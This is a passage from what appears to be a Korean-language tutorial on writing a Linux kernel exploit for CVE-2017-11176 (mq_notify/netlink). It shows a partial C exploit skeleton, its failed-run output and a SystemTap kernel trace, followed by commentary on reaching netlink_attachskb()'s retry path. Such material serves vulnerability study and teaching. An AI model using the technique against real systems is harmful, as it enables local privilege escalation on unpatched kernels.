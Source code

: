 ```c
      {
        perror("mq_notify");
        goto fail;
      }
      printf("mq_notify succeed\n");

      // TODO: exploit

      return 0;

    fail:
      printf("exploit failed!\n");
      return -1;
    }
```

이제 실행을 해보자:

```plaintext
-={ CVE-2017-11176 Exploit }=-
netlink socket created = 3
mq_notify: Bad file descriptor
exploit failed!

(18998-18998) [SYSCALL] ==>> mq_notify (-1, 0x7ffce9cf2180)
(18998-18998) [uland] ==>> copy_from_user ()
(18998-18998) [skb] ==>> alloc_skb (priority=0xd0 size=0x20)
(18998-18998) [uland] ==>> copy_from_user ()
(18998-18998) [skb] ==>> skb_put (skb=0xffff88003d1e0480 len=0x20)
(18998-18998) [skb] <<== skb_put = ffff88000a0a2800
(18998-18998) [vfs] ==>> fget (fd=0x3)                                          // <--- this time '3' is expected
(18998-18998) [vfs] <<== fget = ffff88003cf14d80                                // PASSED
(18998-18998) [netlink] ==>> netlink_getsockbyfilp (filp=0xffff88003cf14d80)
(18998-18998) [netlink] <<== netlink_getsockbyfilp = ffff88002ff60000           // PASSED
(18998-18998) [netlink] ==>> netlink_attachskb (sk=0xffff88002ff60000 skb=0xffff88003d1e0480 timeo=0xffff88003df8ff40 ssk=0x0)
(18998-18998) [netlink] <<== netlink_attachskb = 0                              // UNWANTED BEHAVIOR
(18998-18998) [vfs] ==>> fget (fd=0xffffffff)
(18998-18998) [vfs] <<== fget = 0
(18998-18998) [netlink] ==>> netlink_detachskb (sk=0xffff88002ff60000 skb=0xffff88003d1e0480)
(18998-18998) [netlink] <<== netlink_detachskb
(18998-18998) [SYSCALL] <<== mq_notify= -9
```

이는 정말 *버그가 많은* 첫 stap trace처럼 보인다. 차이점은 library 뒤에 숨은 것이 아무것도 없고 우리가 *실제로* 모든 데이터(file descriptor, sigev)를 통제한다는 것이다. 첫 **fget()**도 **netlink\_getsockbyflip()**도 *NULL*을 반환하지 않았으므로 우리가 두 검사를 모두 통과한 거라고 안심할 수 있겠다.

### Forcing netlink\_attachskb() to take the retry path
